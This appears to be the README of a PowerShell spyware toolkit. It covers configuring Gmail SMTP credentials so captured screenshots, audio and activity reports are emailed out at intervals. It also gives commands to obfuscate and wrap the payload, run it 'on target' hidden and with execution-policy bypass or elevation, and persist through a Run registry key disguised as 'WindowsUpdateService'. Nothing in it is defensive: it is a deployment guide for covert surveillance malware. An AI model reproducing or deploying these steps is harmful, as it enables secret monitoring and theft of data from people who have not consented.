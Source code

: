 ## Installation & Deployment

### **Step 1: Configure Email Settings**
Edit `Main.ps1` and update the configuration section:

```powershell
$Config = @{
    Email = "your_email@gmail.com"      # Your email address
    Password = "your_app_password"      # Gmail app password
    SmtpServer = "smtp.gmail.com"       # SMTP server
    SmtpPort = 587                      # SMTP port
    UseTls = $true                      # Use TLS encryption
    LogInterval = 3600                  # Report interval (seconds)
    ScreenshotInterval = 300            # Screenshot interval (seconds)
    AudioInterval = 900                 # Audio interval (seconds)
    MoveInterval = 600                  # Movement interval (seconds)
}
```

### **Step 2: Deploy the Toolkit**
```powershell
# Basic deployment
.\Deploy.ps1

# Deploy with obfuscation
.\Deploy.ps1 -Obfuscate

# Deploy with executable wrapper
.\Deploy.ps1 -Obfuscate -CreateExecutable
```

### **Step 3: Execute on Target**
```powershell
# Method 1: Direct PowerShell execution
powershell.exe -ExecutionPolicy Bypass -File SystemUpdate.ps1

# Method 2: Silent execution
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File SystemUpdate.ps1 -Silent

# Method 3: With administrative privileges
Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File SystemUpdate.ps1" -Verb RunAs
```

## Technical Details

### **Persistence Methods**

#### **1. Registry Persistence**
- **Location**: `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run`
- **Name**: `WindowsUpdateService`
- **Command**: PowerShell execution with hidden window
